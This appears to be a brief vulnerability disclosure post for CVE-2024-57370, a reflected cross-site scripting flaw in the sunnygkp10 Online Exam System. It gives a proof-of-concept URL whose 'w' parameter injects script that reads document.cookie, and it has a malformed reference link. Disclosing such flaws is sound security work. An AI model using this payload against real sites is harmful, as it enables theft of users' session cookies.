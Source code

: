 ```yaml
---
title:  "CVE-2024-57370: sunnygkp10's Online Exam System"
date:   2025-01-16
tags: [posts]
excerpt: "Discovery of CVE-2024-57370"
---
```

Explanation of CVE-2024-57370
---
Cross-site Scripting (XSS) vulnerability in sunnygkp10 Online Exam System master version allows a remote attacker to obtain sensitive information via the ```w``` parameter.

Proof-of-Concept: http://<DOMAIN_NAME>/Online-Exam-System-/index.php?w=%22);alert(document.cookie);//%22

References
---
1. [CVE Link] - Link to the CVE
2. [Online Exam System GitHub](https://github.com/typecho/typecho](https://github.com/sunnygkp10/Online-Exam-System-)
